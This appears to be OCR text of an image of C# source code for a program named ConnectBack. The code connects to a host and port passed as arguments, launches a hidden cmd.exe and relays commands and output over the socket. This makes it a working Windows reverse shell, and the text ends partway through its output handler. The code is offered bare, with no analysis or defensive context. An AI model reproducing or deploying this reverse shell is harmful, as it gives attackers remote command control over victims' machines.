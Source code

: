 ```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
```